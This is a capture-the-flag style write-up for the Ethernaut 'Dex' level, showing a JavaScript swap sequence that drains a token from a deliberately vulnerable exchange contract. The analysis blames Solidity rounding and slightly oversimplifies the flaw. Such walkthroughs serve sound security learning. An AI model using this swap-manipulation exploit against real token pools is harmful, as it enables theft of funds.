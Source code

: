 # Level 20: [Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Level objectives:
Drain one of the tokens from dex.
## Analysis
- Similar to JS's floating point errors, solidity has rounding errors.
- Sol always rounds towards zero.
- So, by making many token swaps from token1 to token2 and back, we can decrease the total balance of one of the tokens in the contract to zero. The precision loss will automatically do the job for us. 
## Code:
```js
await contract.approve(contract.address, 500); 

const token1 = await contract.token1();
const token2 = await contract.token2();

contract.swap(token1, token2, 10);
contract.swap(token2, token1, 20);
contract.swap(token1, token2, 24);
contract.swap(token2, token1, 30);
contract.swap(token1, token2, 41);
contract.swap(token2, token1, 45);

// verify using:
await contract.getSwapPrice(token1, token2, 1);
await contract.getSwapPrice(token2, token1, 1);
```
